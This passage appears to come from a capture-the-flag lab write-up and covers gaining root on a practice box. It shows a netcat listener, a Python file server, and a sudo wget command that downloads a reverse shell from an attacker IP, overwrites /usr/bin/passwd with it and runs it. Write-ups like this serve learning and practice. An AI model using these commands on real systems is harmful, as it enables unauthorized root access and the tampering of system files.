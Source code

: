 Now pretty much any reverse shell would work here as long as the language is supported by the box I just decided to use python to get some practice in. 

Now that we have our reverse shell code ready, create both the nc listener to receive the connection and a file server to host the reverse shell on for the box to download it from.

```text
nc -lvnp 1234
```

```text
python -m SimpleHTTPSever 80
```

We will now use wget to get the reverseshell onto the machine and then execute it. We need to do this quickly as it would seem that there is a cron job removing most extra files about everu 5 seconds.

So the command we are going to use is:

```text
sudo wget http://10.10.14.21:80/reverse_shell.py -O /usr/bin/passwd

/usr/bin/passwd
```

Then on your netcat listener you should see the incoming connection from the box and you are root.

![](.gitbook/assets/vmplayer_rxssavlkee.png)

